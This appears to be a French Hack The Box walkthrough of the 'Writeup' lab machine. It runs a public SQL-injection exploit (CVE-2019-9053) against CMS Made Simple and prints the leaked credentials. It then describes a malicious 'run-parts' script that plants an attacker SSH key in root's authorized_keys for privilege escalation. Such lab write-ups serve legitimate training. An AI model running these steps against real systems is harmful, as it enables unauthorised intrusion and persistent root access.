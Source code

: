 ```yaml
---
title: 'Writeup - Hack the box'
description: 'Machine writeup HTB walkthrough'
pubDate: 'Aug 08 2025'
heroImage: '../../assets/writeup.jpg'
---
```


# Reconnaissance

## Scan Nmap
```bash
nmap -sV -p- 10.129.215.21
```
**Ports ouverts :**
- 22/tcp  → SSH  
- 80/tcp  → HTTP

---


# Exploitation Web

## 1. Énumération
Accès à la route `/writeup` → CMS Made Simple  
Copyright 2003-2019 → version 2019 (inférieure à 2.2.10).

## 2. Exploit CVE-2019-9053 (SQL Injection)
```bash
searchsploit CMS Made Simple
searchsploit -m php/webapps/46635.py
mv 46635.py script.py

# Installation des dépendances Python 2
/etc/skel/.pyenv/versions/2.7.18/bin/pip2 install requests termcolor

# Lancement de l’exploit
/etc/skel/.pyenv/versions/2.7.18/bin/python2 script.py \
  -u http://10.129.215.21/writeup
```
**Résultats :**
- Salt : `5a599ef579066807`
- Utilisateur : `jkr`
- Email : `jkr@writeupz`
- Hash : `62def4866937f08cc13bab43bb14e6f7`

Déchiffrement :
```txt
62def4866937f08cc13bab43bb14e6f7:5a599ef579066807:**********
```

Identifiants SSH : jkr:**********

# Mouvement latéral & élévation de privilèges
## 1. Reconnaissance sur la cible
```bash
ls -ld /usr/local/bin /usr/local/sbin
# drwx-wsr-x 2 root staff 20480 Apr 19  2019 /usr/local/bin
# drwx-wsr-x 2 root staff 12288 Apr 19  2019 /usr/local/sbin
```
=> Groupe `staff` possède le droit d’écriture dans `/usr/local/bin`.

## 2. Sur la machine attaquante
```bash
# Téléchargement de pspy32
wget https://github.com/DominicBreuker/pspy/releases/download/v1.0.0/pspy32
scp pspy32 jkr@10.129.215.21:/tmp
```

## 3. Sur la cible
```bash
cd /tmp
chmod +x pspy32

# Génération d’une paire de clés
ssh-keygen -f writeup
cat writeup.pub    # à copier

# Création d’un binaire « run-parts » malveillant
cd /usr/local/bin
vi run-parts
```
Contenu :
```bash
#!/bin/bash
mkdir -p /root/.ssh
echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC... wesloo@htb' \
  >> /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys
```
```bash
chmod +x run-parts
# Attendre qu’un job cron exécute /usr/local/bin/run-parts
``

## 4. Connexion root
```bash
chmod 600 writeup
ssh -i writeup root@10.129.215.21
id
# uid=0(root) gid=0(root) ...
```
Root obtenu.
